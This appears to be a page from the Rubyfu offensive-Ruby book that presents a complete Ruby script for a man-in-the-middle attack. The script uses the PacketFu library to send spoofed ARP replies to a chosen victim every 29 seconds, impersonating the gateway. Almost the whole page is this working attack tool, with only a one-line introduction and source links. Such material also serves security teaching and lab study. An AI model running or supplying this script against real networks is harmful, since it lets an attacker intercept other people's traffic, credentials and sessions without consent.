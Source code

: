 # Man in the Middle Attack

Example of a more elaborate MITM attack using ARP Poisoning with PacketFU and socket using source code in this book as base.

```ruby
require 'packetfu'
require 'socket'

def poison(lip, lmac, vip, vmac, rip, int_name)
   puts "Sending ARP Packet Spoof Every 29 Seconds…"
   x = PacketFu::ARPPacket.new(:flavor => "Linux")
     x.eth_saddr = lmac  # your MAC Address
     x.eth_daddr = vmac  # victim MAC Address
     x.arp_saddr_mac = lmac # your MAC Address
     x.arp_daddr_mac = vmac # victim MAC Address
     x.arp_saddr_ip = rip # Router IP Address
     x.arp_daddr_ip=  vip # Victim IP Address
     x.arp_opcode = 2 # ARP Reply Code
   while true do # Infinite Loop created
     x.to_w(int_name) # Put Packet to wire  interface
      sleep(29) # interval in seconds, change for your preference 
   end
end

def get_ifconfig(int_name)
    int_config = PacketFu::Utils.whoami?(:iface => int_name)
    return int_config[:ip_saddr], int_config[:eth_saddr]
end

def get_victim_info()
   puts "enter victim ip"
   vip = gets
   puts "enter victim MAC"
   vmac = gets
   puts "enter gateway ip"
   rip = gets
   return vip, vmac, rip
end

# need to be root to run this

unless Process.uid.zero?
  puts "you need to run this script as root!"
  exit 0
end

#select interface to use and start setup

interfaces = Socket.getifaddrs.map { |i| i.name }.compact.uniq
list = Hash[(0...interfaces.size).zip interfaces]
list.each do |l, v|
  puts "#{l} #{v}"
end

puts "enter interface number to use on MITM"
int_number = gets
if  list.key?(int_number.to_i)
   lip, lmac = get_ifconfig(list.fetch(int_number.to_i))
   vip, vmac, rip = get_victim_info()
   poison(lip, lmac, vip, vmac, rip, list.fetch(int_number.to_i))
else
  puts "Selected interface does not exists"
end
```



Source: [Ruby-MiTM](https://github.com/ChrisFernandez/ruby-mitm "Ruby-mitm") and Rubyfu [ARP Spoofing topic](/module_0x3__network_kung_fu/arp_spoofing.md).

